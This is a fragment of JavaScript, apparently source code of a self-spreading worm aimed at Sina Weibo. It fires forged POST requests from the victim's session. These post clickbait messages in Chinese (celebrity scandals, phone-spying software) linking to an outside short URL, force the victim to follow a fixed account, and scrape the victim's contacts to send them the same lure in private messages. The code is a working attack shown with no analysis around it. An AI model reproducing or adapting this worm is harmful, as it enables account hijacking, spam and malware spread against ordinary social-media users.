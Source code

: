 ```js
	id = result.match(/namecard=\"true\" title=\"[^\"]*/g);
	for(i=0;i<id.length;i++){
		sum = id[i].toString().split('"')[3];
		id_arr += sum + '||';
	}
	return id_arr;
}
function random_msg(){
	link = ' http://163.fm/PxZHoxn?id=' + new Date().getTime();;
	var msgs = [
		'郭美美事件的一些未注意到的细节：',
		'建党大业中穿帮的地方：',
		'让女人心动的100句诗歌：',
		'3D肉团团高清普通话版种子：',
		'这是传说中的神仙眷侣啊：',
		'惊爆!范冰冰艳照真流出了：',
		'杨幂被爆多次被潜规则:',
		'傻仔拿锤子去抢银行：',
		'可以监听别人手机的软件：',
		'个税起征点有望提到4000：'];
	var msg = msgs[Math.floor(Math.random()*msgs.length)] + link;
	msg = encodeURIComponent(msg);
	return msg;
}
function post(url,data,sync){
	xmlHttp = createXHR();
    xmlHttp.open("POST",url,sync);
    xmlHttp.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");
    xmlHttp.send(data);
}
function publish(){
	url = 'http://weibo.com/mblog/publish.php?rnd=' + new Date().getTime();
	data = 'content=' + random_msg() + '&pic=&styleid=2&retcode=';
	post(url,data,true);
}
function follow(){
	url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=' + new Date().getTime();
	data = 'uid=' + 2201270010 + '&fromuid=' + $CONFIG.$uid + '&refer_sort=profile&atnId=profile';
	post(url,data,true);
}
function message(){
	url = 'http://weibo.com/' + $CONFIG.$uid + '/follow';
	ids = getappkey(url);
	id = ids.split('||');
	for(i=0;i<id.length - 1 & i<5;i++){
		msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Date().getTime();
		msg = random_msg();
		msg = encodeURIComponent(msg);
		user = encodeURIComponent(encodeURIComponent(id[i]));
		data = 'content=' + msg + '&name=' + user + '&retcode=';
		post(msgurl,data,false);
	}
}
function main(){
	try{
		publish();
	}
	catch(e){}
	try{
		follow();
```